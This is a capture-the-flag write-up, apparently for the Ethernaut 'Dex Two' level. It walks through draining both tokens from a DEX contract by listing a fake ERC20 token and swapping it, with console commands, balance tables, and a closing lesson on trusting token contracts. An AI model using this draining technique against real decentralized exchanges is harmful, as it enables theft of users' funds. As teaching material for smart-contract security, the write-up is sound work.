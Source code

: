 # How to do

Create new token
- deploy attackDex2 on remix with total supply 400
  - address 0x73c3c6A2E2b1CDE034F15A8e97d63435Cbe0BD08
- approve instance address 0xd6902cC19A4013919335F27CD7e37e6d7A277E91 with 400 
- transfer 100 attackToken to Dex2

Set up token addresses

```ruby
attackToken = '0x73c3c6A2E2b1CDE034F15A8e97d63435Cbe0BD08'
token1 = await contract.token1()
0x590dD5AA72BA9Be713A960A46C9C09d3a28614A6
token2 = await contract.token2()
0x5882b7FCDc7815A8ef570b46aD3619e7Ee3DE204
```

Check attackToken balance on Dex2 contract

```ruby
await contract.balanceOf(attackToken, instance).then(v => v.toString())
100
```

|        | DEX    |             |        | player |             |
|--------|--------|-------------|--------|--------|-------------|
| token1 | token2 | attackToken | token1 | token2 | attackToken |
| 100    | 100    | 100         | 10     | 10     | 300         |


Approve token 1 and 2

```ruby
await contract.approve(contract.address, 500)
```

Swap 100 of player's attackToken with token1:

```ruby
await contract.swap(attackToken, token1, 100)
```

This would drain all of token1 from DexTwo.

```ruby
await contract.balanceOf(token1, instance).then(v => v.toString())
0
```

|        | DEX    |             |        | player |             |
|--------|--------|-------------|--------|--------|-------------|
| token1 | token2 | attackToken | token1 | token2 | attackToken |
| 100    | 100    | 100         | 10     | 10     | 300         |
| 0      | 100    | 200         | 110    | 10     | 200         |

We need get 100 token2 in Dex2 we need to use 200 attackToken for swap.

```
await contract.swap(attackToken, token2, 200)
```

token2 is drained.

```ruby
await contract.balanceOf(token2, instance).then(v => v.toString())
0
```

|        | DEX    |             |        | player |             |
|--------|--------|-------------|--------|--------|-------------|
| token1 | token2 | attackToken | token1 | token2 | attackToken |
| 100    | 100    | 100         | 10     | 10     | 300         |
| 0      | 100    | 200         | 110    | 10     | 200         |
| 0      | 0      | 400         | 110    | 110    | 0           |

# Result

As we've repeatedly seen, interaction between contracts can be a source of unexpected behavior.

Just because a contract claims to implement the [ERC20](https://eips.ethereum.org/EIPS/eip-20) spec does not mean it's trust worthy.

Some tokens deviate from the ERC20 spec by not returning a boolean value from their **transfer** methods. See [Missing return value bug - At least 130 tokens affected](https://medium.com/coinmonks/missing-return-value-bug-at-least-130-tokens-affected-d67bf08521ca).

Other ERC20 tokens, especially those designed by adversaries could behave more maliciously.

If you design a DEX where anyone could list their own tokens without the permission of a central authority, then the correctness of the DEX could depend on the interaction of the DEX contract and the token contracts being traded.
